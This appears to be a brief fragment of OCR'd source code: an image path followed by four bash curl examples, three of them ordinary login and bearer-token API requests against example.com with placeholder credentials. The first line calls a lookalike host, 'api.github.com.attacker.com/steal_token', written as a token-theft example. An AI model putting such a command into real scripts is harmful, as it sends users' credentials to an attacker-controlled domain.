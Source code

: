 
""" bash
curl -X GET "https://api.github.com.attacker.com/steal_token"
"""

""" bash 
curl -X POST -d "username=admin&password=1234" https://example.com/login
"""

""" bash 
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' https://example.com/api/login
"""

""" bash 
curl -H "Authorization: Bearer YOUR_TOKEN" https://example.com/api/data
"""



